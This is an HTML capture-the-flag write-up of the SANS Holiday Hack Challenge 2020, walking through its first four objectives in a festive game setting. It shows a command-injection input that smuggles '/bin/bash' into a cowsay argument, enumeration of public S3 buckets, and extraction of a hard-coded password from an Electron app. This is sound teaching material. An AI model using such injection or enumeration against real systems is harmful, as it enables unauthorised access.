



<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <link rel="stylesheet" href="css/sans_20.css">
  <script src="https://cdn.jsdelivr.net/gh/google/code-prettify@master/loader/run_prettify.js"></script>
  <title>Holiday Hack Challenge 2020</title>
</head>
<body>
<div id="toc">
  <h2>Table of Contents</h2>
  <h3><a href="#intro">Introduction</a></h3>

  <h3>Objective 1</h3>
  <ul>
    <li><a href="#o01">Gift List</a></li>
  </ul>
  <h3>Objective 2</h3>
  <ul>
    <li><a href="#t02">Kringle Kiosk</a></li>
    <li><a href="#o02">S3 bucket</a></li>
  </ul>
  <h3>Objective 3</h3>
  <ul>
    <li><a href="#t03">Linux primer</a></li>
    <li><a href="#o03">Password recovery</a></li>
  </ul>
  <h3>Objective 4</h3>
  <ul>
    <li><a href="#t04">Unescape Tmux</a></li>
    <li><a href="#o04">Santavator</a></li>
  </ul>
  <h3>Objective 5</h3>
  <ul>
    <li><a href="#t05a">Speaker UNPrep</a></li>
    <li><a href="#t05b">33 Gkbps</a></li>
    <li><a href="#o05">HID lock</a></li>
  </ul>
  <h3>Objective 6</h3>
  <ul>
    <li><a href="#t06">RegEx toy sorting</a></li>
    <li><a href="#o06">Splunk challenge</a></li>
  </ul>
  <h3>Objective 7</h3>
  <ul>
    <li><a href="#t07">CAN-bus investigation</a></li>
    <li><a href="#o07">Sleigh's CAN-D-BUS</a></li>
  </ul>
  <h3>Objective 8</h3>
  <ul>
    <li><a href="#t08">Redis Bug Hunt</a></li>
    <li><a href="#o08">Broken Tag Generator</a></li>
  </ul>
  <h3>Objective 9</h3>
  <ul>
    <li><a href="#t09">ScaPy prepper</a></li>
    <li><a href="#o09">ARP shenanigans</a></li>
  </ul>
  <h3>Objective 10</h3>
  <ul>
    <li><a href="#t10">Elf Code</a></li>
    <li><a href="#o10">Fingerprint Sensor</a></li>
  </ul>
  <h3>Objective 11</h3>
  <ul>
    <li><a href="#t11">Snowball Game</a></li>
    <li><a href="#o11">Naughty/Nice Blockchain</a></li>
  </ul>
  <h3><a href="#epilogue">Epilogue</a></h3>
</div>

<div id="writeup">
  <div class="hangright">
    
  </div>
  <div class="hangleft">
    
  </div>
  <h1 style="text-align: center;" id="intro">Holiday Hack Challenge 2020</h1>
  <div id="headline">
    <div></div>
    <div style="margin-left: 40px;"></div>   
  </div>
  <h2 style="text-align: center;">KringleCon 3: French Hens</h2>
  <h2 style="text-align: center;">Writeup by Kumaus</h2>
  <p>
    It is this time of year again. Thousands of revellers are congregating at the 
    North Pole again to enjoy the frosty hospitality of Santa, meet his elves,
    listen to interesting <a href="https://www.youtube.com/KringleCon">talks</a>, 
    solve the odd problem, enter live discussions, but most of all to get to know
    Marie, Pierre and Jean-Claude, the three mystery shrouded and surprisingly 
    un-female hens from France. But how the times have changed! No more rustic 
    North Pole train steaming across the ice, but instead a motorway exit complete 
    with billboard, a huge parking lot and a gondola station. What happened to all the 
    frosty charm of the polar wastes? 
  </p>
  <p>
    Up we go to meet Santa in front of his castle. A friendly welcome as always:
  </p>
  <div class="quote"> 
    <div class="name">Santa:</div>
      Hello and welcome to the North Pole! We’re super excited about this year’s 
      KringleCon 3: French Hens. My elves have been working all year to upgrade 
      the castle. It was a HUGE construction project, and we’ve nearly completed 
      it. Please pardon the remaining construction dust around the castle and 
      enjoy yourselves!
  </div>
  <p></p>
  
  <p>
    Impressive, the big man is even cooler than his usual self. And the castle 
    has certainly grown: 5 oddly numbered floors linked by an elevator. The map 
    below is an attempt to show the location of elves with something to say, 
    terminal challenges, main objectives and, most importantly, the french hens. 
    Stars indicate the items needed to repair the elevator, and the red crosses 
    are locked doors which need to be opened one way or another. 
  </p>
  
  <p>
    Before getting busy inside the castle, an elf needs help at the bottom of 
    the gondola.
  </p>
  

  <h2 id="o01">Objective 1: Uncover Santa's Gift List</h2>
  <div class="objective">
    Difficulty: 1<br>
    There is a photo of Santa's Desk on that billboard with his personal gift list. 
    What gift is Santa planning on getting Josh Wright for the holidays? Talk to 
    Jingle Ringford at the bottom of the mountain for advice.
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Jingle Ringford:</div>
    Oh, and before you head off 
    up the mountain, you might want to try to figure out what's written 
    on that advertising bilboard. Have you managed to read the gift list 
    at the center? It can be hard when things are twirly. There are tools 
    that can help! It also helps to select the correct twirly area.
  </div>
  <div class="hint">
    &xrarr; 
    <a href="https://www.photopea.com/">Photopea</a> is an online tool that could help Filter the 
    Distortion that is this Twirl.
  </div>
  <p></p>
  

  <h3>I) Untwirling with Photopea</h3>
  <p>
    The gift list is located at the bottom of the billboard, next to the Enigma machine. 
    Apart from being twirled, the list is distorted by perspective. Before the twirl can be 
    addressed, the perspective has to be removed. The steps in Photopea are:
    <ol>
      <li>Crop the gift list</li>
      <li>Edit -> Transform -> Distort to undo the perspective</li>
      <li>Select elliptic region and use Filter -> Distort -> Twirl</li>
    </ol>
  </p>
  <div style="text-align: center;">
    
    
    
  </div>
  <p>
    Finding the correct elliptic area to untwirl takes quite a lot of trial and error. My best
    attempt: 
  </p>
  
  <p>
    On the right side, the name "Josh" appears in 5th position from bottom, and on the right side 
    this corresponds to <mark class="answer">proxmark</mark>, a nice tool 
    encountered again in <a href="#o05">objective 5</a>.
  </p>

  <h3>II) Untwirling with python</h3>
  <p>
    It is actually quite easy to write your own untwirler. Thanks to the deadline extension,
    there was a bit of extra time, so <a href="src/o_01/untwirl.py">here we go</a>:
  </p>
  <pre class="prettyprint lang-py">
from PIL import Image
import math
import numpy

im1 = Image.open("../../img/o_01/distort.png")
p1 = im1.load()
w, h = im1.size
im2 = Image.new(im1.mode, im1.size)
p2 = im2.load()

r_arr = [40, 70, 120, 170, 220, 300]
omega_arr = [-3.2, -2.5, -2.0,  -1.5, -0.7, 0]    # Interpolation points for twirl
def omega(r_):        # untwirling function
    return numpy.interp(r_, r_arr, omega_arr)

xo, yo = (560, 300)   # origin of twirl
y_scale = 0.55        # scaling factor along y axis
for x in range(w):
    for y in range(h):
        r = math.sqrt((x - xo)**2 + (y - yo)**2 / y_scale**2)
        if r_arr[-1] &lt; r &lt; r_arr[-1] + 1:         # Draw boundary of twirl
            p2[x, y] = (0, 0, 0)
        elif r &lt; r_arr[-1]:
            x_twirl = xo + (x - xo) * math.cos(omega(r)) - (y - yo) / y_scale * math.sin(omega(r))
            y_twirl = yo + (y - yo) * math.cos(omega(r)) + (x - xo) * y_scale * math.sin(omega(r))
            y_twirl = min(y_twirl, h-1)
            p2[x,y] = p1[int(x_twirl),int(y_twirl)]
        else:
            p2[x,y] = p1[x,y]
im2.show()
im2.save("../../img/o_01/py_untwirl.png")  </pre>
  <p>
    The twirled region can be elliptic, with scaling factor y_scale in y direction. 
    Each pixel is rotated around the origin (xo, yo) by an amount depending on the 
    radius. To define this untwirling function omega, I started from the outside 
    and worked inwards to find interpolation values by trial and error. Compared to 
    Photopea untwirling, it was much easier and faster to arrive at a vaguely readable
    gift list.
  </p>
  
  
  <h2 id="t02">Terminal 2: Kringle Kiosk</h2>
  <div class="terminal">
    
  </div>
  <div class="quote">
    <div class="name">Shinny Upatree:</div>
    Hiya hiya - I'm Shinny Upatree! Check out this cool KringleCon kiosk!
    You can get a map of the castle, learn about where the elves are, and 
    get your own badge printed right on-screen! Be careful with that last 
    one though. I heard someone say it's "ingestible." Or something...
    Do you think you could check and see if there is an issue?
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      There's probably some kind of
      <a href="https://owasp.org/www-community/attacks/Command_Injection">command injection</a>
      vulnerability in the menu terminal.
    </div>
  </div>
  <p></p>
  <div class="framed" style="font-size: 80%;">
    Welcome to our castle, we're so glad to have you with us!<br>
    Come and browse the kiosk; though our app's a bit suspicious.<br>
    Poke around, try running bash, please try to come discover,<br>
    Need our devs who made our app pull/patch to help recover?<br>
    <br>
    Escape the menu by launching /bin/bash<br>
  </div>
  <p>
    The kiosk offers a selection of interesting and less riveting information, 
    warning of dire consequences if anything except a single digit
    is entered:
    <ol>
      <li>a <a href="src/t_02/map.txt">map</a> of the castle with elevator locations</li>
      <li>the <a href="src/t_02/code_of_conduct.txt">code of conduct</a></li>
      <li>a very useful <a href="src/t_02/elf_directory.txt">elf directory</a></li>
      <li>a printer for the kringlecon name badge</li>
    </ol>
    However, entering special characters or long strings (trying to trigger buffer 
    overflows) doesn't seem to affect the menu selection. Things get more 
    interesting when looking at the badge generator:
  </p>
  
  <p>
    This prompts to enter a name, which is then printed in the speech bubble of a 
    reindeer. It includes another kind reminder not to enter any special characters,
    lest weird errors are caused. Of course, this is quite impossible to resist. 
    The most telling error message comes up when entering something like <code>xxx)</code>:
  </p>
  <pre>
bash: -c: line 0: syntax error near unexpected token `)'
bash: -c: line 0: `/usr/games/cowsay -f /opt/reindeer.cow xxx)'</pre>
  <p>
    It's the infamous cowsay disguised as reindeer! Apparently everything entered
    after the prompt is simply appended after the cowasy command. According to
    the <a href="https://linux.die.net/man/1/cowsay">man page</a>, any command-line
    arguments left over after all switches have been processed become the reindeer's 
    message. So, we could enter additional switches to generate alternative badges, 
    such as '-b Kumaus'. Fun, but no shell.
  </p>
  <p>
    Entering a semicolon brings progress: the input <code>abc;xyz</code> results in 
    a reindeer saying "abc", and an error message "bash: xyz: command not found".
  </p>
  
  <p>
    The semicolon is of course the bash command seperator, and it does not get filtered. The 
    input <mark class="answer">Kumaus; /bin/bash</mark> gives
    us shell and a success message.
  </p>
  


  <h2 id="o02">Objective 2: Investigate S3 Bucket</h2>
  <div class="objective">
    Difficulty: 1<br>
    When you unwrap the over-wrapped file, what text string is inside 
    the package? Talk to Shinny Upatree in front of the castle for hints 
    on this challenge.
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Shinny Upatree:</div>
    Say, we've been having an issue with an Amazon S3 bucket. Do you think you could 
    help find Santa's package file? Jeepers, it seems there's always a leaky bucket 
    in the news. You'd think we could find our own files!
    Digininja has a great guide, if you're new to S3 searching.
    He even released a tool for the task - what a guy!
    The package wrapper Santa used is reversible, but it may take you some trying.
    Good luck, and thanks for pitching in!
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      It seems like there's a
      <a href="https://www.computerweekly.com/news/252491842/Leaky-AWS-S3-bucket-once-again-at-centre-of-data-breach">new story</a> 
      every week about data exposed through unprotected Amazon S3 buckets.
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Robin Wood wrote up a <a href="https://digi.ninja/blog/whats_in_amazons_buckets.php">guide</a> 
      about finding these open S3 buckets. He even wrote a
      <a href="https://digi.ninja/projects/bucket_finder.php">tool</a> to search for unprotected buckets!
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Santa's Wrapper3000 is pretty buggy. It uses several compression 
      tools, binary to ASCII conversion, and other tools to wrap packages.
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Find Santa's package file from the cloud storage provider. Check Josh 
      Wright's <a href="https://www.youtube.com/watch?v=t4UzXx5JHk0">talk</a> for more tips!
    </div>
  </div>

  <h3>I) Background</h3>
  <p>
    Amazon Simple Storage Service (S3) is a cloud-based object storage system offered 
    by Amazon through a Web Service interface, launched in 2006. Similar
    to classical folders and files, public or private data objects are organized 
    in buckets and stored. The size of a bucket can be huge (&lt; 5 TB). 
    The objects are managed via Amazon S3 REST API or AWS SDK and accessed via
    HTTP GET or BitTorrent. Bucket access is controlled by (coarse) Access Control Lists.
    Each Bucket is identified by its globally unique bucket name selected by
    the owner. This can be simple or contrived, a bit like a password, and needs to be 
    known or guessed if a bucket is to be found. 
  </p>
  <p>
    Ideally, access to private buckets should be restricted, but many buckets have 
    been unintentionally marked public through carelessness when the bucket was created.
    They are now accessible for anyone who knows or can guess their bucket name. 
    The tool <b>bucket_finder.rb</b> by Robin Wood automates the process of trying 
    out different bucket names from a wordlist in order to find public ones, 
    a bit like sifting the sand for gold nuggets. Let's get to it.
  </p>

  <h3>II) Find Santa's package</h3>
  <p>
    A terminal is waiting on the table next to Shinny:
  </p>
  
  <p>
    Two items are included in the home directory: the bucket_finder software, and 
    a list of TIPS:
    <ul>
      <li>
        If you need an editor to create a file you can run nano (vim is also available).
      </li>
      <li>
        Everything you need to solve this challenge is provided in this terminal
        session.
      </li>
    </ul>
    The wordlist provided with bucket_finder has only 3 entries: <b>kringlecastle</b>, 
    <b>wrapper</b> and <b>santa</b>. Running the bucket_finder with this list finds
    several interesting sounding buckets, but nothing public:
  </p>
  <pre>
~/bucket_finder$ <span>./bucket_finder.rb wordlist</span>
    http://s3.amazonaws.com/kringlecastle
    Bucket found but access denied: kringlecastle
    http://s3.amazonaws.com/wrapper
    Bucket found but access denied: wrapper
    http://s3.amazonaws.com/santa
    Bucket santa redirects to: santa.s3.amazonaws.com
    http://santa.s3.amazonaws.com/
    Bucket found but access denied: santa</pre>
  <p>
    Let's refine the wordlist. In the motd shown when opening the terminal, <b>Wrapper3000</b>
    is highlighted in green (hint, hint), so that seems a good place to start. Adding 
    Wrapper3000 scores no hits, but the lowercase wrapper3000 strikes gold:
  </p>
  <pre>
    http://s3.amazonaws.com/wrapper3000
    Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
        <mark>&lt;Public&gt; http://s3.amazonaws.com/wrapper3000/package</mark></pre>
  <p>
    Using the <b>--download</b> option creates the directory wrapper3000 containing
    a single file: <b>package</b> 
  </p>

  <h3>III) Unwrap the overwrapped package</h3>
  <p>
    I get it, Santa likes to wrap presents, and he is good at it (or rather his 
    elves are). But this is way over the top, even for 
    the big man. In most cases, the file suffix is enough to reveal the compression
    or archiving mechanism used. If uncertain, the <b>file</b> command gives
    valuable insights. 
  </p>
  <table class="bordered">
    <tr>
      <th>filename</th>
      <th>file command</th>
      <th>file type</th>
      <th>unpacking</th>
    </tr>
    <tr>
      <td>package</td>
      <td>
        ASCII text, with <br>very long lines
      </td>
      <td>Base 64 encoding</td>
      <td><code>base64 -d package > p2</code></td>
    </tr>
    <tr>
      <td>p2</td>
      <td>
        Zip archive data, <br>at least v1.0 to extract
      </td>
      <td>zip archive</td>
      <td><code>unzip p2</code></td>
    </tr>
    <tr>
      <td>package.txt.Z.xz.xxd.tar.bz2</td>
      <td>
        bzip2 compressed data, <br>block size = 900k
      </td>
      <td>Bzip2 compressed file</td>
      <td><code>bunzip2 package.txt.Z.xz.xxd.tar.bz2</code></td>
    </tr>
    <tr>
      <td>package.txt.Z.xz.xxd.tar</td>
      <td>
        POSIX tar archive
      </td>
      <td>Tar archive</td>
      <td><code>tar -xf package.txt.Z.xz.xxd.tar</code></td>
    </tr>
    <tr>
      <td>package.txt.Z.xz.xxd</td>
      <td>
        ASCII text
      </td>
      <td>xxd hexdump</td>
      <td><code>xxd -r package.txt.Z.xz.xxd <br>package.txt.Z.xz</code></td>
    </tr>
    <tr>
      <td>package.txt.Z.xz</td>
      <td>
        XZ compressed data
      </td>
      <td>XZ compressed file</td>
      <td><code>xz -d package.txt.Z.xz</code></td>
    </tr>
    <tr>
      <td>package.txt.Z</td>
      <td>
        compress'd data 16 bits
      </td>
      <td>Compress file</td>
      <td><code>compress -d package.txt.Z</code></td>
    </tr>
  </table>
  <p>
    The content of the final layer is short and to the point: 
    <mark class="answer">North Pole: The Frostiest Place on Earth</mark>
    Wait a minute ... this does NOT sound like Santa. Something is afoot ... 
  </p>


  <h2 id="t03">Terminal 3: Linux Primer</h2>
  <div class="quote">
    <div class="name">Sugarplum Mary:</div>
    Sugarplum Mary? That's me! I was just playing with this here terminal 
    and learning some Linux! It's a great intro to the Bash terminal. If 
    you get stuck at any point, type hintme to get a nudge! Can you make 
    it to the end?
  </div>
  <p>
    Shocking news: all the lollipops on the system have been stolen by evil
    munchkins. Their name suggests otherwise, but apparently they haven't eaten 
    the lollipops yet, so our task is to chase up the munchkins and to recapture
    the lollipops. Niceness points can be hoped for if none go missing in 
    the process. And the good part for Linux patzers like myself: hints are 
    freely available! 
  </p>
  <ol>
    <li>
      Perform a directory listing of your home directory to find a munchkin 
      and retrieve a lollipop!
      <div class="answer">ls</div>
    </li>
    <li>
      Now find the munchkin inside the munchkin.
      <div class="answer">cat munchkin_19315479765589239 </div>
    </li>
    <li>
      Great, now remove the munchkin in your home directory.
      <div class="answer">rm munchkin_19315479765589239</div>
    </li>
    <li>
      Print the present working directory using a command.
      <div class="answer">pwd</div>
    </li>
    <li>
      Good job but it looks like another munchkin hid itself in you home directory. 
      Find the hidden munchkin!
      <div class="answer">ls -a</div>
    </li>
    <li>
      Excellent, now find the munchkin in your command history.
      <div class="answer">history</div>
    </li>
    <li>
      Find the munchkin in your environment variables.
      <div class="answer">env</div>
    </li>
    <li>
      Next, head into the workshop.
      <div class="answer">cd workshop</div>
    </li>
    <li>
      A munchkin is hiding in one of the workshop toolboxes. Use "grep" while 
      ignoring case to find which toolbox the munchkin is in.
      <div class="answer">grep -i "munchkin" *</div>
    </li>
    <li>
      A munchkin is blocking the lollipop_engine from starting. Run the 
      lollipop_engine binary to retrieve this munchkin.
      <div class="answer">chmod a+x lollipop_engine<br>./lollipop_engine</div>
    </li>
    <li>
      Munchkins have blown the fuses in /home/elf/workshop/electrical. cd 
      into electrical and rename blown_fuse0 to fuse0.
      <div class="answer">cd /home/elf/workshop/electrical<br>mv blown_fuse0 fuse0 </div>
    </li>
    <li>
      Now, make a symbolic link (symlink) named fuse1 that points to fuse0
      <div class="answer">ln -s fuse0 fuse1</div>
    </li>
    <li>
      Make a copy of fuse1 named fuse2.
      <div class="answer">cp fuse1 fuse2</div>
    </li>
    <li>
      We need to make sure munchkins don't come back. Add the characters 
      "MUNCHKIN_REPELLENT" into the file fuse2.
      <div class="answer">echo "MUNCHKIN_REPELLENT" >> fuse2</div>
    </li>
    <li>
      Find the munchkin somewhere in /opt/munchkin_den.
      <div class="answer">find /opt/munchkin_den/ -iname "munchkin*"</div>
    </li>
    <li>
      Find the file somewhere in /opt/munchkin_den that is owned by the user munchkin.
      <div class="answer">find /opt/munchkin_den/ -user munchkin</div>
    </li>
    <li>
      Find the file created by munchkins that is greater than 108 kilobytes 
      and less than 110 kilobytes located somewhere in /opt/munchkin_den.
      <div class="answer">find /opt/munchkin_den/ -size +108k -size -110k</div>
    </li>
    <li>
      List running processes to find another munchkin.
      <div class="answer">ps -ef</div>
    </li>
    <li>
      The 14516_munchkin process is listening on a tcp port. Use a command 
      to have the only listening port display to the screen.
      <div class="answer">netstat -napt</div>
    </li>
    <li>
      The service listening on port 54321 is an HTTP server. Interact 
      with this server to retrieve the last munchkin.
      <div class="answer">curl localhost:54321</div>
    </li>
    <li>
      Your final task is to stop the 14516_munchkin process to collect the 
      remaining lollipops.
      <div class="answer">kill 44106</div>
    </li>
  </ol>
  <p>
    All lollipops have been saved. I now feel very nice, but hungry.
  </p>

  <h2 id="o03">Objective 3: Point-of-Sale Password Recovery</h2>
  <div class="terminal">
    
  </div>

  <div class="objective">
    Difficulty: 1<br>
    Help Sugarplum Mary in the Courtyard find the supervisor password for 
    the point-of-sale terminal. What's the password?
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Sugarplum Mary:</div>
    Hey, wouldja' mind helping me get into my point-of-sale terminal? 
    It's down, and we kinda' need it running. Problem is: it is asking 
    for a password. I never set one! Can you help me figure out what it 
    is so I can get set up? Shinny says this might be an Electron 
    application. I hear there's a way to extract an ASAR file from the 
    binary, but I haven't looked into it yet.
  </div>
  <div class="hint">
    &xrarr;
    <div>
      It's possible to extract the source code from an 
      <a href="https://www.electronjs.org/">Electron</a> app.
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      There are <a href="https://www.npmjs.com/package/asar">tools</a> and 
      <a href="https://medium.com/how-to-electron/how-to-get-source-code-of-any-electron-application-cbb5c7726c37">guides</a> 
      explaining how to extract ASAR from Electron apps. 
    </div>
  </div>

  <p>
    <b>Electron</b> is a framework used to create desktop applications with 
    JS, HTML and CSS, without having to rely on OS specific native frameworks. 
    Electron is built on Node.js and employs a specific archive format, ASAR, 
    to hold the application files including source code. 
  </p>
  <p>
    Attempting to open the terminal downloads the app for offline investigation: 
    santa-shop.exe, which is a rather large self-extracting archive. Within the 
    folder <b>$PLUGINSDIR</b> it contains a 50 MB archive <b>app-64.7z</b>. This 
    second archive holds all important application binaries and has the subfolders
    <b>locales</b>, <b>resources</b> and <b>swiftshader</b>. Poking around the 
    resources folder reveals <a href="src/o_03/app.asar">app.asar</a>, the ASAR file 
    we are looking for.
  </p>
  <p>
    But how to open it? The tools and guide hinted at all require a running node.js, 
    which is a bit annoying to install just for this purpose. Luckily, there 
    is a simpler way for backwater Windows users such as myself. A kind soul 
    has written a 7zip plugin called <b>Azar7z</b> which is capable of opening .asar 
    files. Installation and usage are described <a href="https://dji.retroroms.info/howto/app.asar">here</a>.
    The unpacked contents of app.asar can be admired in <a href="src/o_03/asar/">src/o_03/asar/</a>
    (I have renamed index.html to make the directory visible). 
  </p>
  <p>
    The file <b>README.md</b> points to the location of the password (ever so kind ...)
  </p>
  <div class="framed">
    Remember, if you need to change Santa's passwords, it's at the top of main.js!
  </div>
  <p>
    and there it is indeed:
  </p>
  <div class="answer">
    const SANTA_PASSWORD = 'santapass';
  </div>


  <h2 id="t04">Terminal 4: Unescape Tmux</h2>
  <div class="terminal">
    
  </div>
  <div class="quote">
    <div class="name">Pepper Minstix:</div>
      Howdy - Pepper Minstix here! I've been playing with tmux lately, and golly 
      it's useful. Problem is: I somehow became detached from my session. Do you 
      think you could get me back to where I was, admiring a beautiful bird? If 
      you find it handy, there's a tmux cheat sheet you can use as a reference. 
      I hope you can help!
  </div>
  <div class="hint">
    &xrarr;
    <a href="https://tmuxcheatsheet.com/">Tmux cheat sheet</a>
  </div>
  <div class="hint">
    &xrarr;
    <a href="https://www.hamvocke.com/blog/a-quick-and-easy-guide-to-tmux/">Tmux guide</a>
  </div>
  <p>
    This terminal is an excellent opportunity for first contact and some 
    hands-on experience with Tmux (which IS rather cool). One can play with 
    the terminal, open several sessions, windows and panes and mess around 
    with them. The experience comes in very handy in <a href="#o09">objective 9</a> 
    later on.
  </p>
  <p>
    A bit of <a href="https://en.wikipedia.org/wiki/Tmux">background</a>: 
    Tmux is an open-source terminal multiplexer for Unix-like operating systems. 
    It allows multiple terminal sessions to be accessed simultaneously in a single 
    window, and is useful for running several command-line programs at the 
    same time. One of the best features: Processes started from within tmux can 
    be detached from their panes without killing them. They will continue running 
    in the background and can be reattached at a later time. 
  </p>
  
  <p>
    It seems that Pepper has managed to detach his green birdy session from his 
    pane. Luckily, thanks to tmux, this didn't stop the session, it was simply 
    moved to the background. To find it, we need to list all running sessions 
    and look for a small green flying one, and then reattach this session
    to the terminal pane. 
  </p>
  <pre>
~$ <span>tmux ls</span>
   0: 1 windows (created Tue Dec 29 18:02:11 2020) [80x24]
~$ <span>tmux attach -t 0</span></pre>
  <p>
    There is only a single session chugging along in the background, so that 
    must be the one. We just made Pepper a happy elf and hopefully gained several 
    niceness points in the process.
  </p>


  <h2 id="o04">Objective 4: Santavator operations</h2>
  <div class="objective">
    Difficulty: 2<br>
    Talk to Pepper Minstix in the entryway to get some hints about the Santavator..
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Pepper Minstix:</div>
    Hey, maybe I can help 
    YOU out! There's a Santavator that moves visitors from floor to floor, but 
    it's a bit wonky. You'll need a key and other odd objects. Try talking to 
    Sparkle Redberry about the key. For the odd objects, maybe just wander around 
    the castle and see what you find on the floor. Once you have a few, try 
    using them to split, redirect, and color the Super Santavator Sparkle 
    Stream (S4). You need to power the red, yellow, and green receivers with 
    the right color light!
    <div class="name">Sparkle Redberry:</div>
    Hey hey, Sparkle Redberry here! The Santavator is on the fritz. Something 
    with the wiring is grinchy, but maybe you can rig something up? Here's the 
    key! Good luck! On another note, I heard Santa say that he was thinking of 
    canceling KringleCon this year! At first, I thought it was a joke, but he 
    seemed serious. I’m glad he changed his mind. Have you had a chance to 
    look at the Santavator yet? With that key, you can look under the panel 
    and see the Super Santavator Sparkle Stream (S4). To get to different 
    floors, you'll need to power the various colored receivers. ... There MAY 
    be a way to bypass the S4 stream.
  </div>
  <p></p>
  <div class="hangright">
    
  </div>
  <p>
    Santa really came up with a beautiful puzzle here. It would almost be a
    shame to cheat, so this option is left for <a href="#o10">objective 10</a>, 
    part III). After Sparkle Redberry hands over the elevator key, the S4 
    stream becomes visible. Somehow, the particles rising from the source 
    have to be coloured green, red and yellow, and the coloured particles 
    diverted to the corresponding coloured receptors. This can be done with 
    the help of different items hidden around the castle. A small table shows 
    which colours are required to reach the different castle floors. The first
    task is clearly to fix the green coloured strem, followed by red, and 
    finally yellow. Item locations in order of discovery (see also <a href="img/intro/map.PNG">map</a>):
  </p>
  <table class="bordered">
    <tr>
      <th>Floor</th>
      <th>Room</th>
      <th>Location</th>
      <th>Item</th>
    </tr>
    <tr>
      <td>1</td>
      <td>Castle approach</td>
      <td>In front of the castle door</td>
      <td>Broken candycane</td>
    </tr>
    <tr>
      <td>1</td>
      <td>Entry</td>
      <td>Near Santavator</td>
      <td>Hex nut</td>
    </tr>
    <tr>
      <td>1</td>
      <td>Dining room</td>
      <td>Courtyard passage</td>
      <td>Hex nut</td>
    </tr>
    <tr>
      <td>1</td>
      <td>Courtyard</td>
      <td>Top left corner</td>
      <td>Green bulb</td>
    </tr>
    <tr>
      <td>2</td>
      <td>Talks lobby</td>
      <td>Top right flowerpot</td>
      <td>Red bulb</td>
    </tr>
    <tr>
      <td>2</td>
      <td>Speaker Unpreparedness</td>
      <td>Near door</td>
      <td>Button</td>
    </tr>
    <tr>
      <td>2</td>
      <td>Speaker Unpreparedness</td>
      <td>Talk to vending machine</td>
      <td>Portal candies</td>
    </tr>
    <tr>
      <td>R</td>
      <td>Netwars room</td>
      <td>Near sleigh</td>
      <td>Yellow bulb</td>
    </tr>
    <tr>
      <td>1.5</td>
      <td>Workshop</td>
      <td>Right of benches</td>
      <td>Large marble</td>
    </tr>
    <tr>
      <td>1.5</td>
      <td>Wrapping room</td>
      <td>Bottom right corner</td>
      <td>Rubber ball</td>
    </tr>
  </table>
  <p>
    Please forgive the usage of "top right" etc in the directions. 
    Clearly this is garbage, but compass directions simply don't work 
    at the North Pole. Anyway, the items have different properties:
    <ul>
      <li>The hex nuts and candycane act as particle guides, redirecting 
        particles along their edges. They do not reflect! 
      </li>
      <li>
        The rubber ball reflects particles and can cause the wide particle
        beam to diverge because of its curvature. 
      </li>
      <li>
        If particles enter one of the portal candies, they fly out of the 
        other in the same direction.  
      </li>
      <li>
        The marble acts as a particle attractor.
      </li>
    </ul>
    While the green and red receptors were easy to light up, yellow was quite tricky. 
    The problem is that the particles leave the emitter from a random horizontal 
    position (wide beam), and the receptors require a steady stream in order to remain 
    powered. Therefore, it is essential to lose as few particles as possible. Because of
    their spraying effect, this makes marble and rubber ball less useful. In the end, the 
    straightforward items and the portals carried the day.
  </p>
  <div style="text-align: center;">
    
    
    
    
    
    
  </div>
  <p>
    All floors are accessible at this point except floor 3 (Santas office), 
    which is protected by an additional fingerprint sensor.
  </p>


